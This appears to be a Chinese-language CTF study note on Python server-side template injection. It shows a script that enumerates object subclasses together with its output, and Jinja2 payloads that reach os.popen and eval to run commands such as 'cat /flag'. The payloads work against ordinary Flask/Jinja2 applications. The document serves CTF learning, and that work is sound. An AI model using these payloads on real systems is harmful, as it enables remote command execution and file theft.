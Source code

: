 查阅资料发现访问os模块还有从warnings.catch_warnings模块入手的，而这两个模块分别位于元组中的59，60号元素。`__init__`方法用于将对象实例化，在这个函数下我们可以通过funcglobals（或者`__globals`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。

于是还可以挖掘到类似payload（注意payload都不是直接套用的，不同环境请自行测试）

```
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')
[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```

我们除了知道了linecache、os可以获取到命令执行的函数以外，我们前面还提到了一个`__builtins__`内建函数，在python的内建函数中我们也可以获取到诸如eval等执行命令的函数。于是我们可以改动一下脚本，看看python2还有哪些payload可以用：

补充一下关于`__builtin__`和`__builtins__`的区别：[传送门](https://www.cnblogs.com/Ladylittleleaf/p/10240096.html)

```py
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    #print item
    try:
        if item.__init__.__globals__.keys():

            if '__builtins__' in  item.__init__.__globals__.keys():
                print(num,item,'__builtins__')
            if  'os' in  item.__init__.__globals__.keys():
                print(num,item,'os')
            if  'linecache' in  item.__init__.__globals__.keys():
                print(num,item,'linechache')

        num+=1
    except:
        num+=1

        
xlccccc@xl-pc:/ctf/web/ssti$ python2 python2OS.py 
(58, <class 'warnings.WarningMessage'>, '__builtins__')
(58, <class 'warnings.WarningMessage'>, 'linechache')
(59, <class 'warnings.catch_warnings'>, '__builtins__')
(59, <class 'warnings.catch_warnings'>, 'linechache')
(60, <class '_weakrefset._IterationGuard'>, '__builtins__')
(61, <class '_weakrefset.WeakSet'>, '__builtins__')
(71, <class 'site._Printer'>, '__builtins__')
(71, <class 'site._Printer'>, 'os')
(76, <class 'site.Quitter'>, '__builtins__')
(76, <class 'site.Quitter'>, 'os')
(77, <class 'codecs.IncrementalEncoder'>, '__builtins__')
(78, <class 'codecs.IncrementalDecoder'>, '__builtins__')

利用方法形如
{{[].__class__.__base__.__subclasses__()[58].__init__.func_globals['linecache'].os.popen('whoami').read()}}

或者直接这样？？原理不懂 #建议x换成url_for
{{x.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
{{x.__globals__.__builtins__.eval("__import__('os').popen('cat /flag').read()")}}
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
url_for这个可以用来构造url，接受函数名作为第一个参数 与get_flashed_message()类似
所以{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
和
{{get_flashed_message.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
是必成的，x有点玄学，有时候不行

```